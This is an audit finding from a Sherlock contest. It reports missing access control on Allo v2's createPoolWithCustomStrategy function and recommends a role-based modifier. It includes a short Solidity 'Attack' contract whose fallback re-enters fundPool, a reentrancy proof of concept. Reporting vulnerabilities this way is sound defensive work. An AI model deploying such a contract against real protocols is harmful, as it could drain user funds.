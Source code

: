 Flat Seaweed Platypus

high

# Creation of malicious custom strategies could lead to protocol insolvency.
## Summary
The creation of custom strategies has no access control method set. 

## Vulnerability Detail
The function <a href="https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L144C14-L144C42">`createPoolWithCustomStrategy`</a> has no access modifier and can be accessed by any user with a profile.
Essentially this could lead to the creation of malicious strategies that do not adhere to the protocols intent.

## Impact
This vulnerability could create strategies that are malicious to end users, thereby leading to loss of user funds and overall trust in the protocol. 

## Code Snippet
An example malicious strategy
pragma solidity ^0.8.19;

import "./interfaces/IAllo.sol";
import "hardhat/console.sol";

contract Attack {
        
        uint256 public poolID;
        address public alloAddress;
        bool public entered = false;

        function initialize(uint256 _id, bytes memory _initData) public returns (bool) {
                poolID = _id;
                alloAddress = msg.sender;
                return true;
        }

        function getPoolId() public returns (uint256) {
                return poolID;
        }

        function getAllo() public returns (address) {
                return alloAddress;
        }

        function reEnter(address _allo) public returns (uint256) {
                IAllo(_allo).fundPool{value: 400000000000000000}(1, 500000000000000000);
                return 1;
        }

        fallback() external payable {
                if (entered == false) {
                        entered = true;
                        reEnter(msg.sender);
                }
                console.log("fallback");
        }
}

## Tool used
Hardhat
Manual Review

## Recommendation
I would recommend a role to be set that only creates custom strategies, then a modifier could be used to grant access to strategy creation.